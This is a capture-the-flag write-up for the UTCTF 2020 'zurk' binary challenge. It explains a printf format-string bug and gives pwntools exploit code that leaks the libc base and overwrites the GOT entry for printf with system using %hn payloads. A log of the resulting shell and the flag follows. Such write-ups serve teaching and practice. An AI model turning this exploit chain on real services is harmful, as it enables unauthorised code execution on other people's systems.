



# UTCTF 2020

## zurk

> zurk
> 
> 657
>
> `nc binary.utctf.live 9003`
>
> by: hk
>
> [`zurk`](zurk) [`libc-2.23.so`](libc-2.23.so)

Tags: _pwnable_

### Research

#### Decompile with Ghidra

Decompiling with Ghidra reveals a `main` with an endless `do_move()` loop:



Scanning through `do_move` there's a `printf` with no format string.  That is the vulnerability.  And since `fgets` is used with size argument of `0x32` we're limited to 50 byte attacks/loop.



#### Checksec



Ok, pretty wide open to many types of attacks.  Be creative.


### Exploit

#### First a Word from our Sponsor `printf`

From the `printf` man page:

> Code  such as printf(foo); often indicates a bug, since foo may contain a % character.  If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

`%p` can return registers `rsi`, `rdx`, `rcx`, `r8`, `r9` (in that order (x86_64)) and anything on the stack from the pointer passed to `printf` and down.

`%n` can write any value, anywhere in RAM where writes are allowed.


#### Attack Plan

1. Leak `libc` base address.  Even with _No PIE_, `libc` will still use ASLR (type `ldd zurk` and see how it changes).  So, if we want to use `libc` we'll need to leak its address first.
2. Overwrite GOT/PLT `printf` with address of `system`.  Thanks _Partial RELRO!_
3. On next _What would you like to do?_ prompt, politely send `/bin/sh`.  That is what we want--Right?
4. Get the flag.


#### Prep

To make things a bit easier Google for OSes that use `libc-2.23.so` and create a Docker container with that OS.  I used Ubuntu 16.04.

> NOTE: I tried `patchelf` and `gdb` settings to use the provided challenge `libc-2.23.so` in an Ubuntu 19.10 container with limited success, in the interest of time I just built a 16.04 container.


#### Leak `libc` base address

Startup `gdb` + enhancements (using `gef` myself), `file zurk`, and `run`:

```
gef➤  file zurk
Reading symbols from zurk...(no debugging symbols found)...done.
gef➤  run
Starting program: /pwd/datajerk/utctf2020/zurk/zurk
Welcome to the game of Zurk!
You awaken in a cave dimly lit by torches.
The cave two tunnels, one going east and the other going west.
What would you like to do?
```

Enter `%6$p`.  This will print the first 8 bytes of the stack starting with the input to `printf`.

> 1-5 will print the values in registers `rsi`, `rdx`, `rcx`, `r8`, `r9` (in that order (x86_64) before `printf` is called and is not useful for this exploit.
> 
> `disas printf` in GDB sometime if you want to know why.


```
%6$p
0x70243625 is not a valid instruction.
What would you like to do?
```

`0x70243625` = `p` `$` `6` `%` (but in reverse for little endian machines like Intel).  Basically that's `fgets` reading the input, putting it on the stack, and the code passing it to `printf`.

Now enter `%7$p`:

```
%7$p
0x7ffff7dd2620 is not a valid instruction.
```

This is most likely something in `libc`, Ctrl-C, and type `disas 0x7ffff7dd2620`:

```
gef➤  disas 0x7ffff7dd2620
Dump of assembler code for function _IO_2_1_stdout_:
   0x00007ffff7dd2620 <+0>:	test   BYTE PTR [rdx],ch
   0x00007ffff7dd2622 <+2>:	lods   eax,DWORD PTR ds:[rsi]
   0x00007ffff7dd2623 <+3>:	sti
...
```

Yep.

> This (`%7$p`) may vary with `printf` exploits and you may not always be looking for something in `libc`, keep incrementing `%N$p` to go further down the stack as necessary.  Just remember the top of the stack on x86_64 machines will be `%6$p`.
>
> The address `0x7ffff7dd2620` will also vary widely and it may point to another part of `libc`, it may even be mid-function.

To find the base address of `libc` we need to subtract the offset of `_IO_2_1_stdout_` (see `disas` above).

Using [pwntools](https://docs.pwntools.com/en/stable/) it will be trivial to find the base of `libc`:

```
from pwn import *

libc = ELF('libc-2.23.so')

p = process('./zurk')
p.recvuntil('to do?')
p.sendline('%7$p')
_IO_2_1_stdout_ = int(p.recvuntil('to do?').split()[0],0)
_IO_2_1_stdout_offset = libc.symbols['_IO_2_1_stdout_']
base = _IO_2_1_stdout_ - _IO_2_1_stdout_offset
```

This sends `%7$p` to `zurk`, then captures the leaked address, then subtract the location of `_IO_2_1_stdout_` from `libc-2.23.so` to compute the base of `libc`.

> TIP: `ldd zurk`, and look at the `libc.so` location, it changes (ASLR), but also notices it ends in `000`.  Our computed base better also end in `000`.  Use that to debug.


#### Overwrite GOT/PLT `printf` with address of `system`

`printf` is not part of `zurk`; it's part of `libc`, `zurk` just uses it.  Because `zurk` is dynamically linked `zurk` does not know the address of `printf`.  But `zurk` knows where to look for the address of `printf` when it needs it and expects the kernel at runtime to populate it.  This lookup table _location_ is determined at compile time and is static, and can be exploited:

```
zurk=ELF('zurk')
_printf = zurk.got['printf']
```

The pwntools code above will extract the target address (`0x601020`) from `zurk`.  That, is where we need to write the location of the `system` call, so that on the next go around our input to `fgets` will not be displayed by `printf` but will instead be executed by `system`.  To perform the write we'll use that `printf` companion to `%p`, `%n`.

Also from the `printf` man page:

>The number of characters written so far is stored into the integer pointed  to  by  the  corresponding  argument. That argument shall be an int *, or variant whose size matches the (optionally) supplied integer length modifier. No argument is converted.  (This specifier is not supported by the bionic C library.)  The behavior is  undefined if the conversion specification includes any flags, a field width, or a precision.

To use `%n`, first we have to write the number of bytes equal to the value we want to write to memory, as well as pass a memory location argument.  We've already seen with `%p` above how to do the later.

To write a bunch of bytes within the limitation of the `50` bytes constrained by `zurk`'s `fgets` use `%Nx`, where `N` is the number of bytes.

Easier said with code:

```
__libc_system = libc.symbols['system']
address = base + __libc_system
words=[ address & 0xFFFF, (address >> 16) & 0xFFFF ]

assert(words[0] < words[1])

payload = ""
payload += "%" + str(words[0]).rjust(6,'0') + "x"
payload += "%0010$hn"
payload += "%" + str(words[1]-words[0]).rjust(6,'0') + "x"
payload += "%0011$hn"
payload += struct.pack("<Q",0x601020)
payload += struct.pack("<Q",0x601020 + 2)

p.sendline(payload)
```

With pwntools we figured out where to write, but still need the what, i.e. the offset to the `system` call in `libc`.  The code above will extract that from `libc-2.23.so` add it to the base and then assign the lower 32-bits to `words[0]` and `words[1]`, e.g. if `address` = `0x7efce1b38390`, then `words[0]` = `0x8390` and `words[1]` = `0xe1b3`.

> NOTE: `words[1]` must be greater than `words[0]` in this example, more robust code can be written, or you can just run a 2nd time and get lucky, this is a CTF, time matters. :-)

It is important to keep your attack string stack aligned; each section is 8 bytes.  Above the string (based on the `address` example given) will be: `%033680x%0010$hn%024099x%0011$hn` followed by `0x601020` as a 64-bit little endian string of 8 bytes, followed by `0x601022` as a 64-bit little endian string of 8 bytes.

Stack:

```
6:    %033680x
7:    %0010$hn
8:    %024099x
9:    %0011$hn
10:   \x20\x10\x60\x00\x00\x00\x00\x00
11:   \x22\x10\x60\x00\x00\x00\x00\x00
```

`printf` will emit 33680 (`0x8390`) spaces and then write `0x8390` to address `0x601020`--the `%0010$hn` does that magic. The `10` is the location on the stack of `0x601020`--remember our string starts at `%6p`.

For the next write to memory we have to subtract the first address from the 2nd because the internal `printf` char counter cannot be reset, to write out `0xe1be` we have to subtract `0x8390`.  This is why the `assert` statement above.

The addresses must be at the end of the string, as `printf` parses the format string it will end on a null (`\x00`) byte.  `fgets` however will happily write our null bytes to the stack, but not `\n`.

The `h` before the `n` instructs `printf` to write out the counter at the specified memory address as a `short`, IOW 16 bits.  Breaking up this into two writes is much faster than waiting for `printf` to print `0xe1b38390` (3786638224) spaces (3.5 GB!).  This method only prints 57779 spaces.  BTW, `hhn` can be used for a single byte, however that would be 4 operations.  The above is at 48 char, and this challenge is limited to 50.  Clearly the organizers set us up (the good way).

After `printf` is called and parses this format string, the GOT/PLT has been updated to call `system` instead of `printf`.

Time for one last round.


#### Politely send `/bin/sh`

```
p.recvuntil('What would you like to do?')
p.sendline('/bin/sh')
p.interactive()
```


#### Get the flag

```
root@a24709512af0:/pwd/datajerk/utctf2020/zurk# ./exploit.py
[*] '/pwd/datajerk/utctf2020/zurk/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to binary.utctf.live on port 9003: Done
[*] '/pwd/datajerk/utctf2020/zurk/zurk'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x3ff000)
    RWX:      Has RWX segments
    RUNPATH:  '/pwd/datajerk/utctf2020/zurk/lib'
[*] Switching to interactive mode
$ id
uid=1000(zurk) gid=1000(zurk) groups=1000(zurk)
$ ls -l
total 4
-rw-r--r-- 1 root root 38 Mar  9 01:05 flag.txt
$ cat flag.txt
utflag{wtf_i_h4d_n0_buffer_overflows}
```

Flag: `utflag{wtf_i_h4d_n0_buffer_overflows}`


